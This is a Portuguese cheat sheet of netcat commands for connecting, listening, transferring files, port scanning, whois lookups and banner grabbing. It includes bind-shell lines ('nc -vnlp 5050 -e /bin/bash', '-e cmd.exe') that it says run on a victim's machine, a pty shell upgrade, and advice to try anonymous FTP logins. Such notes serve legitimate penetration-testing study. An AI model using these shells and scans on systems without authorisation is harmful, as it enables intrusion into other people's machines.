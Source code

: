 # NC
Pode ser usado: nc | ncat | netcat.

``nc`` ==> Executa o netcat.  
``nc -h`` ==> Help do netcat.  
``nc 172.16.1.4 110`` ==> Conecta no IP 172.16.1.4 na porta 110 TCP.  
``nc www.grandbusiness.com.br 21`` ==> Conecta ao site através da porta 21.  
``nc -v 172.16.1.4`` ==> Verbose mode.  
``netstat -nlpt`` ==> Verifica portas abertas no sistema.  
``nc -vlp 5050`` ==> -v [verbose mode], l [listening], p [port], abertura de porta.  
``nc -vlup 9000`` ==> -v [verbose mode], l [listening], u [UDP], p [port], abertura de porta.  
``nc -u 127.0.0.1 9000`` ==> Conecta na porta 9000 UDP no IP 127.0.0.1.  
``nc -vlp 80 < servidor.txt`` ==> Envia o arquivo "servidor.txt" na conexão.  
``nc -lnvp 5050 > ncat.exe`` ==> Envia tudo que chegar para o arquivo ncat.exe.  
``nc -vn 192.168.0.105 5050 < ncat.exe`` ==> Envia o arquivo "ncat.exe" na conexão.  

``nc -vnlp 5050 -e /bin/bash`` ==> Executa o /bin/bash  
``nc -vnlp 5050 -e cmd.exe`` ==> Executa o CMD  
*Os dois comandos acima são um modelo de shell simples onde devem ser executadas na máquina da vítima.*  
``python -c 'import pty; pty.spawn("/bin/bash")'`` ==> Abre uma shell mais elaborada quando já estiver conectado ao alvo via NC.  

Escaneando portas:  
``nc -vnz 172.16.1.5 19-30`` Será escaneado da porta 19 atá a 30.  
``nc -vnz 172.16.1.5 22`` Será escaneado somente a porta 22.  
``nc -vnz -w2 172.16.1.5 22`` Será escaneado levando em consideração o Timeout de 2 segundos [-w2].  
``nc -vnzu -w 172.16.1.5 22`` Será feito o escaneamento UDP [u].  

Vericando whois pelo NC:  
``nc -v 200.160.2.3 43 globo.com``
* A porta 43 é utilizada pelo WHOIS.
* O IP 200.160.2.3 é do registro.br.

---

## Banner Grabbing
### HTTP
nc -vn www.alvo.com 80  
HEAD / HTTP/1.0

---

### FTP
nc -v 192.168.1.100  
USER admin  
PASS 123456  

ftp 192.168.1.100  
*Sempre teste com usuário 'anonymous' e senha 'anonymous'.
Caso o login tenha sido aceito, será retornado o código '230 Login successful'.*
